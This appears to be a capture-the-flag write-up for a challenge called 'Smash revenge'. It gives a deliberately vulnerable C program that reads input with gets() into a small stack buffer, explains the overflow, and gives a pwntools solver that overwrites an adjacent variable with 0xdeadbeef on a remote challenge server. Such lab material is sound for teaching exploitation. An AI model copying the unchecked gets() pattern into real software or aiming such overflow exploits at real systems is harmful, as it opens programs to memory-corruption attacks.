

## Smash revenge


### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[30];
    int target = 0;
    printf("go on :");
    gets(buf);
    if (target == 0xdeadbeef){
        system("cat flag.txt");
    }
    return 0;
} 
```

### Overview
From the code we can understand that the program has a variable called "buf" and assigns a buffer of 30 chars to it. Then there’s another variable called "target" and it’s value is 0. ```gets(buf)``` is dangerous function and should not be used. It operates on the char type buffer and does no checks against overflowing the size assigned to this buffer. As a result if the input exceeds the buffer it will overwrite the "target" variable.

### Sovler
```py
from pwn import *

elf = context.binary = ELF('main')
p = remote("20.216.40.184", 10005)

pay = b'A'*44
pay += p64(0xdeadbeef)

p.sendline(pay)
p.interactive()
p.close()
```
